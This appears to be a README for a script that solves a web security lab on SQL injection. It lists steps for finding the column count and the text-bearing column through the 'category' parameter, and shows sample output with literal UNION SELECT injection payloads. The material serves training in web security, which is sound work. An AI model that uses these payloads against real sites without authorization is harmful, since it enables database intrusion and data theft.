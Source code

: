 ## Hack Steps

1. Inject payload into 'category' query parameter to determine the number of columns.
2. Add one additional null column at a time.
3. Repeat this process, increasing the number of columns until you receive a valid response.
4. After determining the number of columns, replace each column with the desired text one at a time.
5. Repeat this process until you receive a valid response.

## Run Script

1. Change the URL of the lab
2. Start script

```
~$ python main.py
```

## Expected Output

```
⦗#⦘ Injection parameter: category
⦗#⦘ Desired text: 67doLF
❯❯ Trying payload: ' UNION SELECT null-- -
❯❯ Trying payload: ' UNION SELECT null, null-- -
❯❯ Trying payload: ' UNION SELECT null, null, null-- -
⦗#⦘ Number of columns: 3
❯❯ Trying payload: ' UNION SELECT '67doLF', null, null-- -
❯❯ Trying payload: ' UNION SELECT null, '67doLF', null-- -
⦗#⦘ the column containing text: 2
🗹 The lab should be marked now as solved
```
